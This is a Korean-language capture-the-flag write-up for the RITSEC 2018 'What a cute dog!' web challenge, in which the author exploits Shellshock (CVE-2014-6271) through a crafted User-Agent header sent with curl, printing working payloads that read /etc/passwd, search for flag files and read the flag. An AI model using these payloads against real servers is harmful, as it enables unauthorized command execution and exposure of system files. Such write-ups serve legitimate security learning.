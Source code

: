 ```yaml
---
title: "[RITSEC 2018] What a cute dog! Write up"
date: 2021-05-05T12:59:44Z
draft: false
category: [write-up]
subcategories: [los]
tags: [test1, test2]
---
```


주말에 잠깐 짬이 나서 RITSEC CTF에 참여했다.  

웹 몇개랑 암호 한개 정도 풀었는데 그 중에 한 문제에 대한 Write Up을 써 두려고 한다.  

<!--more-->

문제 정보는 다음과 같다.  

```
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch
```

문제에 접속하면 아래와 같은 화면이 보인다.  

![](/images/CTF/RITSEC2018/whatacutedog/whatacutedog_01.png)

아무것도 없어 보이는데, `페이지 소스보기`를 하면 `iframe`으로 `/cgi-bin/stats`를 호출하는 것을 알 수 있다.  

```html

<html>

	<head>

    <style>
    body {
        background-image: url("https://wallpaper-house.com/data/out/6/wallpaper2you_129872.jpg");
    }
    </style>

	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
</br>
Has Anyone Really Been Far Even as Decided to Use Even Go Want to do Look More Like?</br>
</br>
Wow, this dog is shockingly cute!</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

해당 경로로 들어가면 아까 봤던 두 줄의 정보만 출력될 뿐, 아무것도 나오는 것이 없다.  

```
Sun Nov 18 14:11:01 UTC 2018
14:11:01 up 1 day, 21:58, 0 users, load average: 0.11, 0.31, 0.29
```

뭘까 잠시 고민하다가, 아무 의미 없는 페이지에 뜬금포로 `/cgi-bin/stats`로 들어 가 어떤 정보를 출력하는게 의심스러워서, 이를 가지고 문제를 푸는 것이 아닌가 생각 해 보았다.  

그래서 구글에 `cgi-bin/stats exploit`라고 검색 해 보았는데 깃허브에서 이와 관련 된 `CVE`를 찾을 수 있었다.  

> [CVE-2014-6271](https://github.com/hmlio/vaas-cve-2014-6271)

해당 취약점을 가지고 있는 `Debian Linux system`에서 `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats`와 같은 코드를 사용 해 임의의 코드를 실행할 수 있다.  

이에 위의 코드를 그대로 문제 서버에 적용 해 보았다.  

그랬더니 아래와 같이 `/etc/passwd`가 출력 된 것을 확인할 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

그래서 이를 가지고 플래그의 위치를 찾기 위해 `find` 명령어를 실행하도록 아래와 같이 테스트 해 보았다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name "*flag*"'" http://fun.ritsec.club:8008//cgi-bin/stats

/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

그랬더니 `/opt/flag.txt`라는 파일을 찾을 수 있었다.  

그래서 이번에는 `/opt/flag.txt`를 읽도록 아래와 같이 실행 해 보았더니 플래그를 찾을 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008//cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs}
```

```
RITSEC{sh3ll_sh0cked_w0wz3rs}
```
